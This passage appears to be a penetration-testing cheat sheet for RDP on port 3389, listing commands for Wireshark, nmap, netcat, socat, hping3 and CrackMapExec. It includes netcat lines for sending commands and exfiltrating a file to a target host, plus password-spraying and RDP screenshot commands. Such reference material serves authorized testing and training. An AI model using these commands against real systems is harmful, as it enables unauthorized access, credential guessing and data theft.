 ## Exploitation Tools

### [[Metasploit]]

### [[Wireshark]]
- **Wireshark Packet Capture:**
	```bash
	wireshark -i <interface> -f "tcp port 3389"
	```

### [[Nmap]]
- **Basic Nmap Scan:** Scan target on specified port to verify if service is on.
    ```bash
    nmap <target_ip> -p 3389
    ```

### [[NetCat]]
- **Netcat TCP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 3389
    ```
- **Netcat UDP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 3389 -u
    ```
- **Execute Commands:** Execute commands on target.
	```bash
	echo "<command>" | nc <target_ip> 3389
	```
- **Exfiltrate Data:** Exfiltrate data over specified port.
	```bash
	nc <target_ip> 3389 < secret_data.txt
	```

### [[SoCat Cheat Sheet]]
- **SoCat TCP Connect:** Simple tests to verify port service is running and responding.
	```bash
	socat - TCP:<target_ip>:3389
	```

### [[HPing3 Cheat Sheet]]
- **Send Packet:** Send TCP packet to the service. Use `-2` to send UDP packet.
    ```bash
    hping3 <target_ip> -p 3389
    ```

## [[CrackMapExec]]
- **Password spraying:**
	```bash
	crackmapexec rdp <target_ip> -u <username> -p <password>
	```
- **Password spraying (without bruteforce):** By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.
	```bash
	crackmapexec rdp <target_ip> -u <username_wordlist> -p <password_wordlist> --no-bruteforce
	```
- **Screenshot (connected):** Using the protocol you can perform RDP screenshot.
	```bash
	crackmapexec rdp <target_ip> -u <username> -p <password> --screenshot --screentime <second>